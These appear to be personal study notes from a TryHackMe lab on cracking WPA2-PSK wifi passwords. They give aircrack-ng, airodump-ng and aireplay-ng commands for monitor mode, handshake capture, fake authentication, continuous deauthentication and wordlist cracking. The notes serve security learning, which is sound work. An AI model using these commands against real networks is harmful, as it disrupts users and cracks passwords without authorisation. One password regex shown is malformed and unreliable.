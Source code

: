 **key terms**

    - SSID: The network "name" that you see when you try and connect
    - ESSID: An SSID that *may* apply to multiple access points, eg a company office, normally forming a bigger network. For Aircrack they normally refer to the network you're attacking.
    - BSSID: An access point MAC (hardware) address

    - WPA2-PSK: Wifi networks that you connect to by providing a password that's the same for everyone
    - WPA2-EAP: Wifi networks that you authenticate to by providing a username and password, which is sent to a RADIUS server.
    RADIUS: A server for authenticating clients, not just for wifi.

4-way handshake wpa2

WPA2-PSK (personal)
  - can be brute forced
  - minimum password characters = 8 

# [aircrack-ng suite](https://www.aircrack-ng.org/)

WPA networks attack = aircrack-ng, airodump-ng and airmon-ng


ESSID = salt for WPA

`sudo airmon-ng check kill`

This does the following:
```bash
 service network-manager stop
 service avahi-daemon stop
 service upstart-udev-bridge stop
 ```

`kill <PID>`
kills process id

puts interface into monitor mode `sudo airmon-ng start wlan0`


creates new interface = wlan0mon

get BSSID
`sudo airodump-ng wlan0mon`

target BSSID and see if any stations are authenticating 
`airodump-ng wlan0mon -d <BSSID>`

start capturing packets on channel and write to file
`airodump-ng -w crackThis --bssid <bssid> -c <#> wlan0mon`   
-j flag for hashcat output

Inject:

get MAC
`sudo aireplay-ng --arpreplay wlan0mon -e <ESSID> -h <BSSID>`


fake authentication 
`aireplay-ng --fakeauth 0 -a <BSSID> wlan0mon -h <mac>`


deauthorize/deauthenticate 
`aireplay-ng --deauth 0 -e <ESSID> wlan0mon`

`aireplay-ng --deauth 0 -a <BSID> wlan0mon`


look at aireplay results
`aireplay-ng --arpreplay wlan0mon -e <ESSID> -h <BSSID>`

open capfile in wireshark and filter for handshake `eapol` (message 2 should have )


Stop monitor mode on wifi card 
`sudo airmon-ng stop wlan0mon`

restart network manager  (didn't work need to restart)
`
sudo service upstart-udev-bridge start &&
sudo service avahi-daemon start &&
sudo service network-manager start 

Hack the hash
`aircrack-ng <name of cap file> -w <path to wordlist>`


Regular expression for complicated passwords

PHP / JS `/[aA-zA]*[0-9]*[^\w\*]*/gm`

python `r"[aA-zA]*[0-9]*[^\w\*]*"gm`






from THM room 
makes list of 5 random passwords from 10000 rockyou lis  
`head /usr/share/wordlists/rockyou.txt -n 10000 | shuf -n 5`

`<mac address>  -56       13        0    0   4  360   WPA2 CCMP   PSK  illuminati `

monitor and write to file
`airodump-ng wlan0mon --bssid <mac address> --channel 4 --write crackThis`


`aireplay-ng --arpreplay wlan0mon -e illuminati -h <mac address>`

`<mac address>`

`aireplay-ng --fakeauth 0 -a <mac address> wlan0mon -h <mac address>`

`aireplay-ng --deauth 0 -e illuminati wlan0mon`

```bash
airodump-ng wlan0mon --bssid <mac address> --channel 1 --write crackThisOne

aireplay-ng --arpreplay wlan0mon -e Max -h <mac address>

aireplay-ng --fakeauth 0 -a <mac address> wlan0mon -h <mac address>

<mac address>  -31        2        0    0   1  130   WPA2 CCMP   PSK  <network name>
```

sources

[THM](https://tryhackme.com/room/wifihacking101)

[David Bombal](https://www.youtube.com/watch?v=WfYxrLaqlN8)